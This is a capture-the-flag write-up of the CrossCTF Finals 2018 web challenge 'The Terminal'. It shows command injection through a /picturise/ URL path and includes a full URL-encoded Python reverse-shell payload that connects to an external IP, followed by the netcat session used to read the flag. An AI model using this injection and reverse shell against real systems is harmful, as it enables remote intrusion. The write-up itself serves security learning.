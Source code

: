 
# CrossCTF Finals 2018: The Terminal (web)

> How long more can you stand it?
>
> http://ctf.pwn.sg:4083

## Challenge

It's a Fake Terminal. Look at the `<title>`. First thing to do in any interactive web app is view-source to find interesting things, followed by exploiting the server. 

DevTools > Debugger -> terminal.js has nothing interesting. 

However, boop.js has our command definitions for the terminal. All these other commands look boring other than posts and date. 

We tried to look at posts, but it seems to require some login. We skipped that and went straight into the date command. 

![Dating in Singapore](dating.png)

The path of the "image" seems to hint that there could be more than one "picturisable" option. A clear hint that this runs the `date` command, especially after seeing it's format. 

![Cute date](date.png)

We tried substituting `date` with `ls`: 

![Cuter date](ls.png)

Yay we have files! Maybe it's in the database.db: 

```
curl "http://ctf.pwn.sg:4082/picturise/cat%20database.db|strings|head%20-n%201" | imgcat
```
![SQLite format 3](sqlite.png)

(I use iTerm2, imgcat prints an image into my terminal) Using `cat`, `strings`, `head` and `tail`, I pretty much navigated through the entire database without gaining anything valuable except for being able to write a post as `admin`. Eww. 

We took a step back. Maybe it's just hiding somewhere in the filesystem. Let's pop a reverse shell because we're lazy and want to use slashes even though there's no need to:

```
curl "http://ctfsf.pwn.sg:4082/picturise/python%20-c%20'import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22138.75.145.240%22%2C8080))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22sh%22%2C%22-i%22%5D)%3B'"
```

(Downloaded off the internet, URLEncoded, modified to connect to an internet server. Why does this challenge have access to the internet!?) We received our $money!

```sh
ambrosechua@some-magical-server $ nc -l 8080
$ ls
app.py
database.db
fonts
init.sql
motd.txt
$ ls /
backend
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
service
srv
sys
tmp
usr
var
$ ls /home/
theterminal
$ ls /home/theterminal
the_flag_is_here_not_elsewhere
$ cat /home/theterminal/the_flag_is_here_not_elsewhere
CrossCTF{C4ther1ne_zet4_j0n3s_w4s_1n_l0st_1n_tr4nsl4t1on}
```

Wohoo! Fast way to find the flag file.

